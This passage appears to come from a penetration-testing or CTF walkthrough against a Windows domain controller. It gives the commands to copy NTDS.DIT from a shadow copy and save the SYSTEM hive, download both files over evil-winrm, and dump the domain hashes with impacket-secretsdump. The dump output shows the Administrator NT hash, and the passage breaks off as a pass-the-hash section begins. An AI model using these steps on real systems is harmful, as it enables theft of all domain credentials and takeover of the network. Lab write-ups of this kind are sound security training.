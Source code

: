 ```shell
cd V:
cd Windows
cd NTDS
robocopy /b .\ C:\Windows\Temp NTDS.DIT
```
If we check the Temp folder we can see that the NTDS.DIT was copied successfully:
```shell
dir C:\Windows\Temp
```

```shell


    Directory: C:\Windows\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/3/2024   4:19 PM            611 2024-11-03_16-19-12_DC01.cab
-a----        11/3/2024   4:16 PM             86 diskshadow.txt
-a----        11/3/2024   7:08 AM         217006 MpCmdRun.log
-a----        11/3/2024   6:38 AM       18874368 ntds.dit
-a----        11/3/2024   3:57 PM          45056 SAM
-a----        11/3/2024   6:39 AM            102 silconfig.log
-a----        11/3/2024   3:57 PM       17580032 SYSTEM
------        11/3/2024   6:38 AM         638764 vmware-vmsvc.log
------        11/3/2024   6:39 AM          37921 vmware-vmusr.log
-a----        11/3/2024   6:38 AM           3360 vmware-vmvss.log
```

Now grab the SYSTEM file from the registry:
```shell
cd C:\Windows\Temp
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM
```

And finally move the NTDS.DIT and SYSTEM files to our Kali using download on evil-winrm session:
```shell
download NTDS.DIT
download SYSTEM
```

Now we can dump them locally and get the valid Administrator hash. We will redirect the output to a file called hashes.txt, since there are a lot of hashes:
```shell
impacket-secretsdump -ntds NTDS.DIT -system SYSTEM local > hashes.txt
```
We can check the first hashes using "head" command to get the Administrator hash:
```shell
head hashes.txt
```

```shell
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from NTDS.DIT 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:d5b8632baf4c8d87b07a17e0ea6390a0:::
```
## Pass-the-Hash to get Administrator access using Evil-WinRM
We will use evil-winrm to pass-the-hash and get access as Administrator: